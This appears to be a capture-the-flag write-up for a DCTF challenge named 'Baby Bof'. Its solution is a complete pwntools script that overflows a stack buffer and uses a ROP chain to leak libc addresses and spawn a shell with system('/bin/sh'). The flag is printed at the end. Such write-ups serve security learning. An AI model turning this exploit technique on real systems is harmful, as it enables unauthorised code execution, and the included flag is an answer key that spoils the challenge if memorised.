 # Baby Bof

## Description

It's just another bof.

`nc dctf-chall-baby-bof.westeurope.azurecontainer.io 7481`

[baby_bof](baby_bof) \
[Dockerfile](Dockerfile)

## Solution

```python
from pwn import *

nc = remote('dctf-chall-baby-bof.westeurope.azurecontainer.io', 7481)

pop_rdi    = 0x400683
pop_rbp    = 0x400538
jmp_rbp    = 0x4007e3
ret        = 0x40048e

puts_got   = 0x601018
alarm_got  = 0x601020
fgets_got  = 0x601028

main     = 0x4005b7

payload = [
    b'A' * 18,

    # print puts addr
    p64(pop_rdi),
    p64(puts_got),
    p64(pop_rbp),
    p64(puts_got),
    p64(jmp_rbp),

    # print fgets addr
    p64(pop_rdi),
    p64(fgets_got),
    p64(pop_rbp),
    p64(puts_got),
    p64(jmp_rbp),

    # print alarm addr
    p64(pop_rdi),
    p64(alarm_got),
    p64(pop_rbp),
    p64(puts_got),
    p64(jmp_rbp),

    p64(main),
]

nc.recvline()
nc.sendline(b''.join(payload))
nc.recvline()

puts  = u64(nc.recvline().rstrip() + b'\x00\x00')
fgets = u64(nc.recvline().rstrip() + b'\x00\x00')
alarm = u64(nc.recvline().rstrip() + b'\x00\x00')

log.info(f"puts @ {hex(puts)}")
log.info(f"fgets @ {hex(fgets)}")
log.info(f"alarm @ {hex(alarm)}")

libc = puts - 0x0875a0
assert libc == fgets - 0x0857b0
assert libc == alarm - 0x0e5f10

log.info(f"libc @ {hex(libc)}")

system = libc + 0x055410
bin_sh = libc + 0x1b75aa

log.info(f"system @ {hex(system)}")

payload = [
    b'A' * 18,

    # system("/bin/sh")
    p64(pop_rdi),
    p64(bin_sh),
    p64(ret),
    p64(system),
]

nc.recvline()
nc.sendline(b''.join(payload))
nc.recvline()

nc.interactive()
```

#### **FLAG >>** `dctf{D0_y0U_H4v3_A_T3mpl4t3_f0R_tH3s3}`